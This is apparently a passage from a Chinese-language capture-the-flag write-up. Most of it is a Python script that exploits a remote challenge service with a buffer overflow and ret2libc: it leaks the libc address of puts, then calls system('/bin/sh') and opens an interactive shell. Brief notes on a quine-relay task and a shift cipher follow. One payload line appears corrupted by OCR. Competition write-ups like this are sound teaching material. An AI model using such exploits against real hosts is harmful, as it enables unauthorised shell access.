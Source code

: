 ```python
    return str(s)

def NONE_WITH_DELAY(s):
    sleep(DELAY)
    return ''


TARGET = ('119.254.101.197', 10001)
LEN_TO_RET = 0x9c
PUTS_PLT = 0x08048530
PUTS_GOT = 0x08049de8
RESTART_ADDR = 0x08048590
PUTS_LIBC = 0x00065650
SYSTEM_LIBC = 0x00040190
BINSH_LIBC = 0x00160A24


io = zio.zio(TARGET)
io.read_until_timeout()
payload = 'http://%\x001'
payload += NOPS(LEN_TO_RET - 8)
payload += zio.l32(PUTS_PLT) + zio.l32(RESTART_ADDR) + zio.l32(PUTS_GOT)
io.writeline(payload)
io.read_until('Decode Result:')
io.readline()

puts_addr = zio.l32(io.read(4))
print hex(puts_addr)
libc_addr = puts_addr - PUTS_LIBC
system_addr = libc_addr + SYSTEM_LIBC
binsh_addr = libc_addr + BINSH_LIBC

io.read_until_timeout()
payload = 'http://%\x001'****
payload += NOPS(LEN_TO_RET - 8)
payload += zio.l32(system_addr) + zio.l32(RESTART_ADDR) + zio.l32(binsh_addr)
io.writeline(payload)

io.interact()
```


## `100` `nesting doll`
Quine-relay的题，用的是[https://github.com/mame/quine-relay/tree/50](https://github.com/mame/quine-relay/tree/50)的版本部上环境后，跑出追后diff 出是一段ruby的join代码，得到flag


## `300` `old fashion 2`

这题除了替换外还多了个移位操作，不过后来放出提示说移位值为7，那就稍微方便一点了。
